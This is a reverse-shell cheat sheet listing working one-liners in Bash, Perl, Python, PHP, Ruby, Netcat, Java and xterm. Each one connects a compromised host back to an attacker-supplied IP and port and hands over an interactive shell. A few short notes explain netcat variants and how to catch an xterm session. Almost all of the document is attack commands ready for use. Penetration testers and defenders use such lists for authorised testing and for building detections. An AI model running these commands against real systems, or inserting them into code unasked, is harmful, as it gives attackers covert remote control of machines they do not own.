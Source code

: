 


# Bash
bash -i >& /dev/tcp/**ip**/**port** 0>&1


# PERL
perl -e 'use Socket;$i="**ip**";$p=**port**;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("**ip**",**port**));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# PHP
php -r '$sock=fsockopen("*ip*",*port*);exec("/bin/sh -i <&3 >&3 2>&3");'


# Ruby
ruby -rsocket -e'f=TCPSocket.open("**ip**",**port**).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'


# Netcat->nc -e /bin/sh **ip** **port**
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f


## Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]



## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):


Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):
xhost +targetip
